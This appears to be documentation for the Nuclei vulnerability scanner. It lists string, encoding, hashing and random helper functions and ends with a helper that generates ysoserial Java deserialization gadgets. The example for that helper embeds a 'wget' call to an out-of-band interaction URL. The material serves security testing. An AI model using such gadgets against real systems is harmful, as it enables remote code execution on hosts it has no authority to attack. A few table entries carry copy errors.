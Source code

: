 #### Helper functions

Here is the list of all supported helper functions can be used in the RAW requests / Network requests.

| Helper function         | Description                                                                                                                                | Example                                                |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------ |
| len                     | Length of a string                                                                                                                         | len("Hello")                                           |
| toupper                 | String to uppercase                                                                                                                        | toupper("Hello")                                       |
| tolower                 | String to lowercase                                                                                                                        | tolower("Hello")                                       |
| replace                 | Replace string parts                                                                                                                       | replace("Hello", "He", "Ha")                           |
| replace_regex           | Replace string parts with regex                                                                                                            | replace_regex("test", "regextomach", "replacewith")    |
| trim                    | Remove trailing unicode chars                                                                                                              | trim("aaaHelloddd", "ad")                              |
| trimleft                | Remove unicode chars from left                                                                                                             | trimleft("aaaHelloddd", "ad")                          |
| trimright               | Remove unicode chars from right                                                                                                            | trimleft("aaaHelloddd", "ad")                          |
| trimspace               | Remove trailing spaces                                                                                                                     | trimspace("  Hello  ")                                 |
| trimprefix              | Trim specified prefix                                                                                                                      | trimprefix("aaHelloaa", "aa")                          |
| trimsuffix              | Trim specified suffix                                                                                                                      | trimsuffix("aaHelloaa", "aa")                          |
| reverse                 | Reverse the string                                                                                                                         | reverse("ab")                                          |
| base64                  | Encode string to base64                                                                                                                    | base64("Hello")                                        |
| base64_py               | Encode string to base64 like python (with new lines)                                                                                       | base64_py("Hello")                                     |
| base64_decode           | Decode string from base64                                                                                                                  | base64_decode("SGVsbG8=")                              |
| url_encode              | URL encode a string                                                                                                                        | url_encode("hxxps://projectdiscovery.io/test?a=1")     |
| url_decode              | URL decode a string                                                                                                                        | url_decode("https:%2F%2Fprojectdiscovery.io%3Ftest=1") |
| hex_encode              | Hex encode a string                                                                                                                        | hex_encode("aa")                                       |
| hex_decode              | Hex decode a string                                                                                                                        | hex_decode("6161")                                     |
| html_escape             | HTML escape a string                                                                                                                       | html_escape("<body>test</body>")                       |
| html_unescape           | HTML unescape a string                                                                                                                     | html_unescape("&lt;body&gt;test&lt;/body&gt;")         |
| md5                     | Calculate md5 of string                                                                                                                    | md5("Hello")                                           |
| sha256                  | Calculate sha256 of string                                                                                                                 | sha256("Hello")                                        |
| sha1                    | Calculate sha1 of string                                                                                                                   | sha1("Hello")                                          |
| mmh3                    | Calculate mmh3 of string                                                                                                                   | mmh3("Hello")                                          |
| contains                | Verify if a string contains another one                                                                                                    | contains("Hello", "lo")                                |
| regex                   | Verify a regex versus a string                                                                                                             | regex("H([a-z]+)o", "Hello")                           |
| rand_char               | Pick a random char among charset (optional, default letters and numbers) avoiding badchars (optional, default empty)                       | rand_char("charset", "badchars")                       |   
| rand_char               | Pick a random sequence of length l among charset (optional, default to letters and numbers) avoiding badchars (optional, default empty)    | rand_base(l, "charset", "badchars")                    |
| rand_text_alphanumeric  | Pick a random sequence of length l among letters and numbers avoiding badchars (optional)                                                  | rand_text_alphanumeric(l, "badchars")                  |
| rand_text_alpha         | Pick a random sequence of length l among letters avoiding badchars                                                                         | rand_text_alpha(l, "charset")                          |
| rand_text_numeric       | Pick a random sequence of length l among numbers avoiding badchars                                                                         | rand_text_numeric(l, "charset")                        |
| rand_int                | Pick a random integer between min and max                                                                                                  | rand_int(min, max)                                     |
| waitfor                 | block the logic execution for x seconds                                                                                                    | waitfor(10)                                            |


#### Deserialization helper functions

Nuclei allows payload generation for a few common gadget from [ysoserial](https://github.com/frohoff/ysoserial).

**Supported Payload:**

- dns (URLDNS)
- commons-collections3.1
- commons-collections4.0
- jdk7u21
- jdk8u20
- groovy1

**Supported encodings:**

- base64 (default)
- gzip-base64
- gzip
- hex
- raw

**Deserialization helper function format:**

```sh
{{generate_java_gadget(payload, cmd, encoding}}
```

**Deserialization helper function example:**

```sh
{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
```





